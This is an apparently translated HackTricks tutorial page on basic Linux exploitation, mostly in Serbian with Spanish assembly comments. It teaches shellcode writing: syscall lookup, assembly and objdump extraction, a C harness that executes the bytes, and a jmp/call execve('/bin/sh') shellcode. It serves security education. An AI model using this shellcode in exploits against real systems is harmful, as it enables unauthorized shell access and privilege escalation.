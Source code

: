 # Linux Exploiting (Basic) (SPA)

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## **2.SHELLCODE**

Vidi prekide kernela: cat /usr/include/i386-linux-gnu/asm/unistd\_32.h | grep “\_\_NR\_”

setreuid(0,0); // \_\_NR\_setreuid 70\
execve(“/bin/sh”, args\[], NULL); // \_\_NR\_execve 11\
exit(0); // \_\_NR\_exit 1

xor eax, eax ; čistimo eax\
xor ebx, ebx ; ebx = 0 jer nema argumenata za prosleđivanje\
mov al, 0x01 ; eax = 1 —> \_\_NR\_exit 1\
int 0x80 ; Izvršiti syscall

**nasm -f elf assembly.asm** —> Vraća nam .o datoteku\
**ld assembly.o -o shellcodeout** —> Daje nam izvršnu datoteku formiranu od asemblerskog koda i možemo izvući opkodove sa **objdump**\
**objdump -d -Mintel ./shellcodeout** —> Da bismo videli da je zaista naš shellcode i izvukli OpKodove

**Proverite da li shellcode funkcioniše**

```
char shellcode[] = “\x31\xc0\x31\xdb\xb0\x01\xcd\x80”

void main(){
void (*fp) (void);
fp = (void *)shellcode;
fp();
}<span id="mce_marker" data-mce-type="bookmark" data-mce-fragment="1">​</span>
```

Da biste videli da li se sistemski pozivi pravilno izvršavaju, treba da kompajlirate prethodni program i sistemski pozivi treba da se pojave u **strace ./PROGRAMA\_COMPILADO**

Prilikom kreiranja shellcode-ova možete koristiti trik. Prva instrukcija je skok na poziv. Poziv poziva originalni kod i dodatno stavlja EIP na stek. Nakon instrukcije poziva smo ubacili string koji nam je potreban, tako da sa tim EIP-om možemo pokazati na string i nastaviti izvršavanje koda.

PRIMER **TRICK (/bin/sh)**:

```
jmp                 0x1f                                        ; Salto al último call
popl                %esi                                       ; Guardamos en ese la dirección al string
movl               %esi, 0x8(%esi)       ; Concatenar dos veces el string (en este caso /bin/sh)
xorl                 %eax, %eax             ; eax = NULL
movb  %eax, 0x7(%esi)     ; Ponemos un NULL al final del primer /bin/sh
movl               %eax, 0xc(%esi)      ; Ponemos un NULL al final del segundo /bin/sh
movl   $0xb, %eax               ; Syscall 11
movl               %esi, %ebx               ; arg1=“/bin/sh”
leal                 0x8(%esi), %ecx      ; arg[2] = {“/bin/sh”, “0”}
leal                 0xc(%esi), %edx      ; arg3 = NULL
int                    $0x80                         ; excve(“/bin/sh”, [“/bin/sh”, NULL], NULL)
xorl                 %ebx, %ebx             ; ebx = NULL
movl   %ebx, %eax
inc                   %eax                          ; Syscall 1
int                    $0x80                         ; exit(0)
call                  -0x24                          ; Salto a la primera instrución
.string             \”/bin/sh\”                               ; String a usar<span id="mce_marker" data-mce-type="bookmark" data-mce-fragment="1">​</span>
```